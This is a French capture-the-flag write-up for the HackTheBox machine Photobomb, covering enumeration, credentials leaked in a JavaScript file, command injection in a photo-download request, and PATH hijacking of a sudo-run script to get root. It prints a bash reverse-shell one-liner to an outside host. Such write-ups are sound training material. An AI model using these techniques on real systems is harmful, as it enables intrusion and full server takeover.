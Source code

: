 # WriteUp de la box Photobomb

Bonjour à toutes et tous, aujourd'hui on s'attaque à la machine Photobomb sur HackTheBox. 

C'est une machine classifiée facile, et nous allons voir que les démarches pour atteindre les deux flags sont relativement rapides (si l'on cherche aux bons endroits).

## Enumération

On commence par réaliser un NMAP afin de scanner les ports ouverts sur la machine : 

![image](https://user-images.githubusercontent.com/33124690/195099486-b77ad55d-e35f-4a74-bfea-d0e4a677d81e.png)

On s'aperçoie que seul le port 80 (HTTP) ainsi que le port 22 (SSH) sont ouverts. On obtient aussi le nom de domaine (photobomb.htb) qu'il faudrait ajouter dans notre ficher "/etc/hosts"

Lorsque l'on se rend sur le site, on se rend compte qu'il n'y a pas grand chose, c'est un site vitrine (d'apparence). 

![image](https://user-images.githubusercontent.com/33124690/195100699-d756413d-d18f-4b08-9fb7-203ba7989aef.png)

Un lien permet de se connecter pour accéder à une autre partie du site. Néanmoins, sans creds, impossible de se connecter, il va falloir trouver une solution. On peut quand même remarquer qu'en cas d'échec d'authentification, on est redirigés sur "/printers".

![image](https://user-images.githubusercontent.com/33124690/195103675-392f6fa7-ed1d-4be0-9de6-2e5de3c0514c.png)

On lance une énumération des "directories" avec gobuster en fond, en parralèle, on continue l'énumération à la main afin de voir si l'on peut trouver quelque chose d'intéressant.

![image](https://user-images.githubusercontent.com/33124690/195105567-1f95810a-096e-415f-9be4-2d3d1354bc33.png)

## Accès au "/printers"

Les résultats de gobuster ne seront pas très intéressants car toutes les pages que l'on trouve nécessite une authentification. Toujours étant qu'en inspectant le code source de la page, on s'aperçoit qu'un fichier JS est utilisé. En y accédant, on obtient des creds visiblement destinés au support technique du site web.

![image](https://user-images.githubusercontent.com/33124690/195106155-64a3d6f0-0ce7-4f7f-aa11-d58bd4662bd9.png)

Il suffit d'utiliser ces creds pour nous connecter ou tout simplement de c/v le lien ! :)

## Reverse Shell pour accéder à la machine

Maintenant que nous avons accès, nous pouvons continuer à énumérer le site. On remarque rapidement un bouton pour télécharger la photo : 

![image](https://user-images.githubusercontent.com/33124690/195107724-663aaefb-0c04-450d-b35c-cfd1a48ce5ee.png)

On lance Burp Suite afin d'étudier la requête qui est effectuée. 

![image](https://user-images.githubusercontent.com/33124690/195108047-908809d1-3394-4012-a25f-12703ab17c57.png)

On test plusieurs attaques comme du LFI sur la requète, rien ne fonctionnait jusqu'au moment où on test les injections de commandes.
Comme on peut le voir ci-contre, il suffit d'ajouter "; {command}" à la suite d'un des trois paramètres pour que ce soit executé. 

![image](https://user-images.githubusercontent.com/33124690/195109920-3df43674-442e-49df-9c53-8e26194183dc.png)

Maintenant que nous avons une RCE sur le serveur web, il suffit de créer notre reverse shell et de l'envoyer afin d'avoir accès à la machine.

Dans un premier temps, un simple reverse shell "bash -i >& /dev/tcp/10.10.14.40/4242 0>&1" ne fonctionne pas, même en URL encodant (surement à cause des caractères spéciaux). On décide donc de le passer en base64 en faisant attention de n'avoir aucun "+".

![image](https://user-images.githubusercontent.com/33124690/195110748-47ec7bde-8672-4391-9993-daeaa0c8312a.png)

Puis, on passe notre payload dans la requète.

![image](https://user-images.githubusercontent.com/33124690/195113874-e1f8dc08-c42c-4b56-9e19-d572dd4d2e68.png)

Ainsi, on obtient un shell sur la machine pour récupérer le flag user.txt. On stabilise notre shell et on s'attaque au privesc !


## Escalation de privilège

On pourrait lancer Linpeas pour voir si il y a des chemins de privesc rapide, mais simplement à l'aide d'un ``` sudo -l``` on s'aperçoit que l'on peut lancer un script en temps que Root.
![image](https://user-images.githubusercontent.com/33124690/195114580-44b45d8f-1db3-4d1c-8b1b-0d7160f848ca.png)


```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Le script en question présente une vulnerabilité. En effet, "find" n'est pas défini avec son chemin absolu, on va pouvoir en abuser pour obtenir un shell root.

On créé un fichier bash sous le nom de find sans /tmp. Ce dernier va copier bash et lui attribuer le setuid Root.

![image](https://user-images.githubusercontent.com/33124690/195116301-aedbe85b-4dbb-4991-801b-fce196d24aa7.png)

On oublie pas de chmod notre script find.

Maintenant, il suffit de changer le path de notre utilisateur (an ajoutant "/tmp:") et de lancer le script :D

![image](https://user-images.githubusercontent.com/33124690/195118038-967f6460-a179-44ed-999c-cefa2f902c17.png)

Et voilà ! 

![image](https://user-images.githubusercontent.com/33124690/195118182-d7881c4d-72f9-4887-87a3-895ca1ef5b4a.png)


J'espère que ce premier WriteUp vous aura plus, j'en referai peut être à l'avenir.

